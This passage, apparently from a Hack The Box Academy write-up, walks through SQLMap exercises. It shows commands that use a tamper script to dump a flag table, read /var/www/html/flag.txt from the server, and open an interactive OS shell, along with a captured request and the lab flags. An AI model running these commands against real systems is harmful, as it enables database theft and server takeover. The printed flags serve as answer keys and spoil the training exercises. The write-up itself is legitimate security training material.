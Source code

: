 By looking at the enunciation at the webapp, we know that there is some filtering with `<` and `>`, so we will use a tamper:

```bash
sqlmap -r r11 --dump -T flag11 -p id --tamper=greatest
```

Results: HTB{5p3c14l_ch4r5_n0_m0r3}


**Try to use SQLMap to read the file "/var/www/html/flag.txt".**

We capture the request and save under name rfinal:

```bash
GET /?id=1 HTTP/1.1
Host: 83.136.250.116:51490
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://83.136.250.116:51490/
Upgrade-Insecure-Requests: 1


```

Now, we check out if we are dbadmin. If positive, then we read the /var/www/html/flag.txt. 

```bash
sqlmap -r rfinal -p id --is-dba
sqlmap -r rfinal --file-read "/var/www/html/flag.txt"

cd /home/username/.local/share/sqlmap/output/83.136.250.116/files
ls -la
cat _var_www_html_flag.txt
```

Results: HTB{5up3r_u53r5_4r3_p0w3rful!}


**Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash
sqlmap -r rfinal --os-shell 
# Options: 2, 4, 1

ls -la /
cat /flag.txt
```




### Skills Assessment

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.
